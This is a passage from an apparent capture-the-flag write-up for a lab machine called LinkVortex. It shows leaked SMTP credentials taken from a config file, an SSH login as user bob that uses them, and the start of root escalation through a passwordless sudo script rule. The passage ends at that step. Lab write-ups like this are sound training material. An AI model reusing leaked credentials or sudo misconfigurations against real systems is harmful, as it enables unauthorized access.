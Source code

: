 ```zsh
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}
file> 
```


### <span style="color: #3498eb;">Foot hold</span>

Accessible via ssh with credentials: `bob:fibber-talented-worth`

And we get the shell of `bob`.

```zsh
❯ ssh bob@linkvortex.htb
The authenticity of host 'linkvortex.htb (10.10.11.47)' can't be established.
ED25519 key fingerprint is SHA256:vrkQDvTUj3pAJVT+1luldO6EvxgySHoV6DPCcat0WkI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'linkvortex.htb' (ED25519) to the list of known hosts.
bob@linkvortex.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Dec  3 11:41:50 2024 from 10.10.14.62
bob@linkvortex:~$ id
uid=1001(bob) gid=1001(bob) groups=1001(bob)
bob@linkvortex:~$ 
```

## <span style="color: red; font-weight: bold;">Shell as root</span>

### <span style="color: #3498eb;">List sudo permissions</span>

It is possible to run `/usr/bin/bash /opt/ghost/clean_symlink.sh *.png` without a password with `sudo`:

